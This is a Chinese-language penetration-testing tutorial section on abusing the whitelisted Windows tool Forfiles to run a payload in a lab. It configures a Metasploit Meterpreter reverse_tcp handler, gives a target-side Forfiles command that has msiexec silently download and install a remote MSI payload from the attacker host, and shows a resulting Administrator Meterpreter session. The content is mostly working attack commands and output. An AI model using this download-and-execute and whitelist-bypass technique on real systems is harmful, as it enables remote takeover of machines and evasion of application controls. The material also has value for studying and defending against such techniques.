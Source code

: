 ### 11.14 基于白名单Forfiles执行payload（十四）

**Forfiles简介：**

Forfiles为Windows默认安装的文件操作搜索工具之一，可根据日期，后缀名，修改日期为条件。常与批处理配合使用。

**微软官方文档：**

    https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753551(v=ws.11)
    
        

说明：Forfiles.exe所在路径已被系统添加PATH环境变量中，因此，Forfiles命令可识别，需注意x86，x64位的Forfiles调用。

Windows 2003 默认位置：

    C:\WINDOWS\system32\forfiles.exe 
    C:\WINDOWS\SysWOW64\forfiles.exe
    
        

Windows 7 默认位置：

    C:\WINDOWS\system32\forfiles.exe 
    C:\WINDOWS\SysWOW64\forfiles.exe
    
        

攻击机： 192.168.1.4 Debian-
靶机： 192.168.1.119 Windows 2003

**配置攻击机msf：**

    msf exploit(multi/handler) > show options 
    ​
    Module options (exploit/multi/handler): 
    ​
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
    ​
    Payload options (windows/meterpreter/reverse_tcp): 
    ​
    Name Current Setting Required Description
    ‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
    ​
    EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
    ​
    LHOST 192.168.1.4 yes The listen address (an interface may be specified)
    ​
    LPORT 53 yes The listen port 
    ​
    Exploit target: 
    ​
    Id Name
     ‐‐ ‐‐‐‐
    0 Wildcard Target 
    ​
    msf exploit(multi/handler) > exploit 
    ​
    [*] Started reverse TCP handler on 192.168.1.4:53
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010231159220.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**靶机执行：Windows 2003**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010231214576.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    forfiles /p c:\windows\system32 /m cmd.exe /c "msiexec.exe /q /i http://192.168.1.4/Micropoor_rev_x86_msi_53.txt"
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010231226682.png%23pic_center)

    msf exploit(multi/handler) > exploit 
    
    [*] Started reverse TCP handler on 192.168.1.4:53
    [*] Sending stage (179779 bytes) to 192.168.1.119
    [*] Meterpreter session 15 opened (192.168.1.4:53 ‐> 192.168.1.119:133
    1) at 2019‐01‐20 06:34:08 ‐0500
    meterpreter > getuid
    Server username: WIN03X64\Administrator
    meterpreter > getpid
    Current pid: 392
    meterpreter >
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201010231240367.png%23pic_center)

* * *